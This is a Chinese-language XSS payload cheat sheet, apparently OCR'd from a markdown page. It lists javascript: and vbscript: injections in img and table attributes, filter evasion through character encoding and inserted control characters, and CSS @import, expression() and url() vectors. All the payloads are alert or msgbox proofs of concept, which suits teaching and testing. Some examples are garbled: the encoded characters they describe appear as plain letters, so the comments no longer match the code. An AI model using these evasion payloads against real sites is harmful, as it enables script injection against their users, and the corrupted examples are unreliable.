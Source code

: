 ### **触发条件：**

#### **1.脚本插入**

**(1)插入javascript和vbscript正常字符。**

```html
例1：\<img src="javascript:alert(/xss/)">

例2：\<table background="javascript:alert(/xss/)">\</table>'/在表格中插入脚本

例3：\<img src="vbscript:msgbox("a")">
```

**(2)转换字符类型。将javascript或vbscript中的任一个或全部字符转换为十进制或十六进制字符。**

```html
例1：\<img src="javascript:alert(/xss/)"> '/将j字符转为十进制字符j 。

例2：\<img src="javascript:alert(/xss/)"> '/将j字符转为十六进制字符j 。
```

**(3)插入混淆字符。**

在系统控制字符中，除了头部的(null)和尾部的 (del)外，其他31个字符均可作为混淆字符，比如`\`等字符都可插入到javascript或vbscript的头部，其中Tab符 、换行符、回车符还可以插入到代码中任意地方。

```html
例1：<img src=" javascript:alert(/a/)"> '/插入到代码头部，其中 可写成 ，效果一样

例2：<img src="java scr ipt:alert(/a/)"> '/插入到代码中任意位置，其中 可写成

例3：<IMG SRC="jav ascript:alert('XSS')"> '/ 是回车符的16进制形式

例4：<IMG SRC="jav ascript:alert('XSS')"> '/ 是换行符的16进制形式
```

#### **2.样式表**

**(1)利用CSS代码@import、expression触发XSS漏洞。**

```css
例1：@import "http://web/xss.css"; '导入外部带有XSS代码的CSS样式表。

例2：@import'javascript:alert("xss")'; '调用javascript脚本触发漏洞

例3：body{xss:expression(alert('xss'))} '在内部样式表中加入expression事件

例4：<img style="xss:**expression(alert("xss"))">'在内嵌样式表中加入expression事件
```

**(2)在CSS代码中加入javascript和vbscript脚本**

```css
例1：body{background-image:url(javascript:alert("xss"))}

例2：body{background-image:url(vbscript:msgbox("xss"))}
```
